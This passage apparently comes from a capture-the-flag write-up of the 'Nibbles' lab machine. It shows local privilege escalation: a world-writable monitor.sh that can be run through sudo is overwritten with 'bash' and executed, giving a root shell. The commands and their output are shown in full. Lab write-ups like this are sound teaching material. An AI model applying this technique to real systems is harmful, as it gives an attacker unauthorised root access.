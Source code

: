 A zip file! Let's unzip it to see the contents inside.

```
nibbler@Nibbles:/home/nibbler$ unzip personal.zip

Archive:  personal.zip                                                                                                
   creating: personal/                                     
   creating: personal/stuff/    
  inflating: personal/stuff/monitor.sh
```

The script inside the zip file is the one we can run as root! Let's take a closer look at the bash script.

```
nibbler@Nibbles:/home/nibbler$ ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

The file is world readable and writable, which means I can edit this script to do anything. The easiest way I thought of to escalate privileges was to modify the script to spawn a bash shell, and run it as root to get a root shell. I copied the script to the user `nibbler`'s home directory just in case anything bad happened.

```
nibbler@Nibbles:/home/nibbler$ cp monitor.sh ~/

nibbler@Nibbles:/home/nibbler$ echo bash > monitor.sh

nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh

root@Nibbles:/home/nibbler/personal/stuff#
```

